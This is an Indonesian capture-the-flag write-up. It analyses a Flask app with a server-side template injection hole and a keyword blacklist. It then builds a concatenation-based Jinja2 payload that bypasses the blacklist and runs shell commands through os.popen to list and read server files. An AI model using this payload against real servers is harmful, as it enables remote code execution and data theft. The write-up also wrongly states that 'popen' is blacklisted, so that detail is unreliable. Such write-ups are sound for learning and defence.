



# Challenge Description

Disoal `insanetemple` ini, kita diberikan source code Flask backend. Mari kita bedah struktur file dan vulnerability-nya.



# 1. Source Code Analysis

Mari kita lihat `app.py`:

```python
from flask import Flask, request, render_template, render_template_string

app = Flask(__name__)

BLACKLIST = [
  "os","system","class","subprocess","import",
  "request","self","config","env","eval","exec","locals",
  "globals", "builtins", "open", "read", "write",
  "getitem", "subclasses", "mro", "base", "init"
]

def is_blacklisted(s):
    lowered = s.lower()
    for w in BLACKLIST:
        if w in lowered:
            return True
    return False

@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        user_input = request.form.get("template", "")

        if is_blacklisted(user_input):
            return render_template("result.html", result="eits ga boleh")

        try:
            result = render_template("result.html", result=render_template_string("{{" + user_input + "}}"))
        except Exception as e:
            result = f"Error: {e}"

        return result

    return render_template("index.html")
```

## The Vulnerability: SSTI

Vulnerability utamanya ada di baris ini:

```python
result = render_template("result.html", result=render_template_string("{{" + user_input + "}}"))
```

Fungsi `render_template_string` menerima input user (`user_input`) yang langsung digabungkan (concatenated) dengan kurung kurawal `{{ }}`. Ini adalah textbook definition dari **Server-Side Template Injection (SSTI)**.

Apapun yang kita masukkan akan dievaluasi oleh Jinja2 template engine. Jika kita masukkan `7*7`, server akan merender `49`. Jika kita masukkan kode Python berbahaya, server akan mengeksekusinya.

## The Filter: Blacklist

Ada `BLACKLIST` yang cukup ketat:

```python
BLACKLIST = [
  "os","system","class","subprocess","import",
  "request","self","config","env","eval","exec","locals",
  "globals", "builtins", "open", "read", "write",
  "getitem", "subclasses", "mro", "base", "init"
]
```

Fungsi `is_blacklisted` melakukan pengecekan string sederhana (`if w in lowered`). Ini berarti kita tidak bisa mengirim kata-kata seperti "class", "import", "os" secara mentah. Tapi, filter ini punya kelemahan: **dia tidak mengevaluasi template sebelum dicek**.

# 2. Construction of the Exploit

Kita perlu memutar otak untuk mem-bypass filter ini. Teknik utamanya adalah **String Concatenation** dan **Attribute Access via String**.

Jika kita butuh string "globals", kita tidak bisa mengetiknya langsung. Tapi di Python (dan Jinja2), `'glo' + 'bals'` akan menjadi `'globals'`. Filter hanya melihat input mentah `'glo' + 'bals'`, yang tidak mengandung kata terlarang!

Mari kita bangun payload step-by-step.

### Step A: Finding a Foothold

Kita butuh objek awal. Karena `request`, `self`, `config` di-blacklist, kita cari yang lain. Fungsi `lipsum` (bawaan Jinja2) tidak di-blacklist.

**Payload:** `lipsum`

### Step B: Accessing Globals

Kita ingin akses `__globals__`, tapi kata "globals" di-blacklist.
Solusinya: Gunakan filter `|attr()` dan string concatenation.

**Target:** `lipsum.__globals__`
**Bypass:** `lipsum|attr('__glo'+'bals__')`

### Step C: Accessing Builtins

Dari globals, kita ingin ke `__builtins__` untuk dapat akses fungsi `__import__`.
Kata "builtins" di-blacklist. Juga, akses dictionary via `['key']` biasanya memicu `getitem` (yang juga di-blacklist).

Untungnya, object global adalah dictionary, jadi punya method `.get()`.

**Target:** `globals['__builtins__']`
**Bypass:** `...|attr('get')('__buil'+'tins__')`

### Step D: Importing `os`

Sekarang kita punya akses ke builtins. Kita butuh fungsi `__import__` untuk load module `os`.
Kata "import" dan "os" di-blacklist.

**Target:** `builtins['__import__']('os')`
**Bypass:** `...|attr('get')('__imp'+'ort__')('o'+'s')`

### Step E: Remote Code Execution (RCE)

Kita sudah pegang module `os`. Sekarang kita mau jalankan perintah shell via `popen`.
Kata "popen" di-blacklist.

**Target:** `os.popen('ls /')`
**Bypass:** `...|attr('po'+'pen')('ls /')`

### Step F: Reading the Output

`popen` mengembalikan file object. Kita perlu baca isinya pakai `read()`.
Kata "read" di-blacklist.

**Target:** `result.read()`
**Bypass:** `...|attr('re'+'ad')()`

# 3. The Final Payload

Menggabungkan semua langkah di atas, kita dapat payload raksasa ini:

```python
lipsum|attr('__glo'+'bals__')|attr('get')('__buil'+'tins__')|attr('get')('__imp'+'ort__')('o'+'s')|attr('po'+'pen')('ls /')|attr('re'+'ad')()
```

Kirim payload ini ke server, dan boom!



Kita lihat ada flag file di sana. Tinggal ganti command `ls /` jadi `cat /nama_file_flag`.



**Flag:**
`LKSSMKN24{one_day_i_reincarnated_as_a_ctf_player_with_a_mission_to_conquer_all_the_challenges_before_me_everything_was_fine_until_i_encountered_a_mysterious_python_challenge_that_raised_the_ultimate_question_is_python_even_a_real_language_as_a_tech_enthusiast_i_thought_python_was_my_safe_haven_familiar_and_friendly_but_pyjail_changed_everything_the_more_i_explored_it_the_more_it_felt_like_i_was_trapped_in_a_twisted_game_where_normal_python_rules_didnt_apply_functions_i_once_trusted_betrayed_me_globals_i_needed_disappeared_it_felt_like_i_was_wrestling_with_an_obscure_beast_that_lurks_in_the_dark_corners_of_python_surely_this_cant_be_happening_i_questioned_was_this_even_programming_anymore_or_a_mind_bending_puzzle_beyond_my_comprehension_it_was_as_if_logic_bent_to_the_whims_of_some_cruel_pyjail_overlord_restricting_my_every_move_and_taunting_me_with_imports_i_couldnt_use_yet_i_persisted_because_in_ctf_we_never_quit}`
